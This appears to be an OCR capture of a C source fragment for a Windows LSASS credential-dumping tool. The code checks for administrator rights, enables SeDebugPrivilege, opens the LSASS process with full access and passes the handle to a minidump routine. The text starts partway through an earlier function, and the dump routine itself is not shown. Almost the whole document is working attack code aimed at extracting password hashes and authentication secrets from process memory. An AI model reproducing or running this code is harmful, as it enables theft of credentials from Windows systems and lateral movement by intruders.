 ```c
        CloseHandle(hToken);
    }
    return fRet;
}

BOOL SetDebugPrivilege() {
    HANDLE hToken = NULL;
    TOKEN_PRIVILEGES TokenPrivileges = { 0 };

    if (!OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY | TOKEN_ADJUST_PRIVILEGES, &hToken)) {
        return FALSE;
    }

    TokenPrivileges.PrivilegeCount = 1;
    TokenPrivileges.Privileges[0].Attributes = TRUE ? SE_PRIVILEGE_ENABLED : 0;

    const wchar_t *lpwPriv = L"SeDebugPrivilege";
    if (!LookupPrivilegeValueW(NULL, (LPCWSTR)lpwPriv, &TokenPrivileges.Privileges[0].Luid)) {
        CloseHandle(hToken);
        printf("I dont have SeDebugPirvs\n");
        return FALSE;
    }

    if (!AdjustTokenPrivileges(hToken, FALSE, &TokenPrivileges, sizeof(TOKEN_PRIVILEGES), NULL, NULL)) {
        CloseHandle(hToken);
        printf("Could not adjust to SeDebugPrivs\n");

        return FALSE;
    }

    CloseHandle(hToken);
    return TRUE;
}

int main(int argc, char* args[])
{
    DWORD lsassPid = atoi(args[1]);
    HANDLE hProcess = NULL;
    if (!IsElevated()) {
        printf("not admin\n");
        return -1;
    }
    if (!SetDebugPrivilege()) {
        printf("no SeDebugPrivs\n");
        return -1;
    }

    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, lsassPid);
    
    minidumpThis(hProcess);
    CloseHandle(hProcess);
 return 0;
}
```
